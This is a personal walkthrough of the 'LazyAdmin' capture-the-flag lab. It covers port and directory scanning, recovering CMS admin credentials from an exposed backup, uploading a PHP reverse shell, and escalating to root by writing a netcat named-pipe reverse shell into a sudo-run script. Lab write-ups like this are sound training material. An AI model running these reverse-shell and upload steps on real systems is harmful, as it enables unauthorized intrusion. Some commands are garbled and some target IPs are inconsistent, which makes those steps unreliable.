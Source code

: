 # LazyAdmin

Easy Linux machine to practice your skills.  

# Tasks

capture the user and root flag.  

# nmap

## ip `10.10.24.121`

## Command 
```sh
nmap -sV -sC -v 10.10.24.121
```
## Results
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| 256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_ 256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## ip `10.10.24.121`


To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



# site

![[Pasted image 20241028210430.png]]


# gobuster

```sh
	gobuster dir -u http://10.10.24.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Results

```sh
/content
```


## /content
![[Pasted image 20241028210450.png]]

Nothing much so i run another gobuster on the directory hoping to find sub-directories  



## gobuster /content

## Command 
```sh
 gobuster dir -u http://10.10.10.216/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
![[Pasted image 20241028210503.png]]

```sh
/inc
```
![[Pasted image 20241028210511.png]]

![[Pasted image 20241028210520.png]]


![[Pasted image 20241028210529.png]]

admin = manager  
password = 42f749ade7f9e195bf475f37a44cafcb\\  
Decoding the password = Password123  

![[Pasted image 20241028210548.png]]

log in using the details.  
![[Pasted image 20241028210603.png]]

Let's look around searching for an exploit vector.  
![[Pasted image 20241028210611.png]]

Get a reverse shell script *php change the ip then copy paste it.  
Now go to 10.10.10.216/content/inc/ads/shell.php but first run nc on your machine
```sh
nc -nlvp 1234
```

*Machine just expired let me start it again Damn all that progress!!! 

## ip `10.10.66.184`

## Commands,will have to start all over again :
1. 10.10.66.184/content/as
2. user = manager
3. password = Password123
4. Upload the reverse shell on ads management room
5. nc -nvlp 1234
6. `http://10.10.66.184/content/inc/ads/shell.php`

now we have a shell !!!
---
![[Pasted image 20241028210653.png]]

user flag = THM{...}
![[Pasted image 20241028210728.png]]



priv esc
-------------------------------------------------------
First lets stablelize the shell.  
```sh
python3 -c'importpty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![[Pasted image 20241028210742.png]]
Let's first look at the backup.pl 
![[Pasted image 20241028210806.png]]

Runs the command with root previlage and we can read and execute it.  
The script runs another script  
![[Pasted image 20241028210833.png]]

## Command 
```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.172.59 5554 >/tmp/f' >/etc/copy.sh
```
Run nc 
```sh
nc -nvlp 5554
```

On the machine run 
```sh
sudo /usr/bin/perl /home/itguy/backup.pl
```
Root flag = THM{...}
![[Pasted image 20241028210851.png]]

